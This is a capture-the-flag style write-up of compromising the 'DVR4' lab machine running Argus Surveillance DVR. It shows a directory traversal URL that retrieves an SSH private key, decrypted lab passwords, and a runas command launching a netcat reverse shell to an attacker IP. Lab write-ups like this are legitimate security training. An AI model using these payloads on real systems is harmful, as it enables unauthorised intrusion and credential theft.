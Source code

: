 ```yaml
---
description: Privilege Escalation using RunAs
---
```


# DVR4

## Summary

* This machine ran an older version of Argus Surveillance DVR, which was vulnerable to a [Directory Traversal exploit](https://www.exploit-db.com/exploits/45296).
  * The machine also had an SSH port open, so the initial foothold plan was to get a private SSH key by exploiting the directory traversal vulnerability and attempting to ssh into the machine.
* Two usernames were identified from the Argus user dashboard, one of which had an associated SSH private key obtained via the directory traversal exploit.
* Within the system, an encrypted password was discovered in the `DVRParams.ini` file. [Weak encryption methods](https://www.exploit-db.com/exploits/50130) allowed the decryption of the password, granting plain-text access to the admin user account.
* Despite SSH access being disabled for the admin user, elevated privileges were achieved using the `runas` command.

## Let's Unpack

### Enumeration

```bash
# Port Scanning
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.172.179

# Got 2 usernames from manual enumeration 
- Administrator
- Viewer
```

### Initial Foodhold

The plan is to get the <mark style="background-color:red;">id\_rsa</mark> key into the box using a directory traversal exploit and ssh.

The Location of `id_rsa` in Windows:

```powershell
C:/Users/<username>/.ssh/id_rsa

# in our case, it must be 
C:/Users/viewer/.ssh/id_rsa

# Getting the key
http://192.168.172.179:8080/WEBACCOUNT.CGI?RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F.ssh%2Fid_rsa

# SSH into the box
chmod 400 id_rsa
ssh -i id_rsa viewer@192.168.172.179
```

### Priv Escalation

Found the encrypted Password in the following directory.

```
C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini
```

Used the following script to decrypt the password

{% embed url="https://github.com/s3l33/CVE-2022-25012" %}

```bash
# Decrupted passwords
Username: Administrator
password0: 14WatchD0g$
password1: ImWatchingY0u
```

Since SSH was disabled on Administrator, I used <mark style="background-color:red;">runas</mark> to get root shell

```bash
runas /user:administrator "C:\users\viewer\nc.exe -e cmd.exe 192.168.45.152 443" 

# catching the shell using nc
nc -nlvp 443

# Boom Got NT AUTHORITY\SYSTEM shell
```

